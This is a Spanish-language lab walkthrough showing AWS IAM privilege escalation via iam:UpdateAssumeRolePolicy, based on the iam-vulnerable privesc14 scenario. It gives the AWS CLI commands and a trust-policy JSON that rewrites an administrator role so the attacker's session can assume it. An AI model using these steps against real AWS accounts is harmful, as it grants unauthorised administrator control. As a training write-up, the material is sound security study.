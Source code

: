 # AssumeRolePolicy Update

Una **AssumeRolePolicy** (también denominada política de confianza), define qué entidades pueden asumir un rol. El permiso para actualizar una **AssumeRolePolicy** cae técnicamente en la categoría de escalada de privilegios "Permisos sobre políticas". Sin embargo, AssumeRolePolicy merece una categoría aparte debido a su importancia en los entornos de AWS, además del hecho de que a menudo se malinterpreta.

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption><p>MiPoliticaEC2</p></figcaption></figure>

La política llamada _MiPoliticaEC2_, especifica que el rol solamente puede ser asumida por el servicio EC2, como se indica en el objeto del JSON: “service”: “ec2.amazonaws.com”.

Cuando otra entidad del entorno (como un usuario u otro servicio) que intente asumir este rol AWS denegará la solicitud. Esta es una protección importante contra los intentos de escalar privilegios asumiendo un rol de privilegios elevados.

El permiso **iam:UpdateAssumeRolePolicy** proporciona a una entidad la capacidad de cambiar la **AssumeRolePolicy** de un rol. Por lo tanto, si un usuario no está incluido en esta política, pero tiene la capacidad de actualizarla, simplemente puede agregar su cuenta de usuario **AssumeRolePolicy**, y en consecuencia, asumir el rol. Según los permisos asociados con el rol, esto podría proporcionar una ruta para la escalada de privilegios.

## Laboratorio

{% embed url="https://github.com/BishopFox/iam-vulnerable#supported-privilege-escalation-paths" %}
Lab: IAM - Vulnerable | Escenario: privesc14
{% endembed %}

Usuario del laboratorio:privesc14-UpdatingAssumeRolePolicy-user con el rol:

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

### Configuración inicial

Listar las políticas asociadas al usuario:

{% code overflow="wrap" %}
```
aws iam list-attached-user-policies --user-name privesc14-UpdatingAssumeR olePolicy-user
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Después, usando el ARN del nombre de la política se puede listar los permisos:

{% code overflow="wrap" %}
```
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc14-UpdatingAssumeRolePolicy --version-id v1
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Ahora se tiene que generar llaves de acceso para trabajar con el usuario:

{% code overflow="wrap" %}
```
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc14- UpdatingAssumeRolePolicy-role --role-session-name privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Y configurar el acceso con AWS configure:

```bash
aws configure --profile privesc14
```

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Y validar las llaves:

```bash
aws sts get-caller-identity --profile privesc14
```

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

### Explotación

En este escenario, se tiene que crear un documento de política que contenga el permiso **sts:AssumeRole** sobre el ARN del usuario atacante

{% code title="assumerolepolicy.json" overflow="wrap" %}
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:sts::651927172911:assumed-role/privesc14-UpdatingAssumeRolePolicy-role/privesc14"
            },
            "Action": "sts:AssumeRole",
            "Condition": {}
        }
    ]
}

```
{% endcode %}

{% hint style="info" %}
El ARN del usuario que se encuentra en nuestra política maliciosa es el valor resultante del comando aws sts get-caller-identity
{% endhint %}

A continuación, se tiene que modificar la política para un rol administrativo con el permiso **update-assume-role-policy** , con el objetivo de que el usuario privesc14 pueda asumir dicho rol:

{% code overflow="wrap" %}
```
aws iam update-assume-role-policy --role-name Rol-Administrator --policy-document file://assumerolepolicy.json --profile privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Listando el rol que se acaba de de actualizar se puede observar que tiene capacidades de administrador

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Dado que el rol apunta ahora a nuestro usuario y el usuario tiene capacidades de asumir roles, procedemos a asumir el rol actualizado malicioso:

{% code overflow="wrap" %}
```
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/Rol-Administrator-Spartan --role-session-name privesc14admin --profile privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Con las nuevas credenciales se proceden a configurar en aws configure con un nuevo perfil

```
aws configure --profile privesc14admin
```

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Y dado que este rol ahora tiene permisos de administrador, podemos decir que se a comprometido exitosamente.





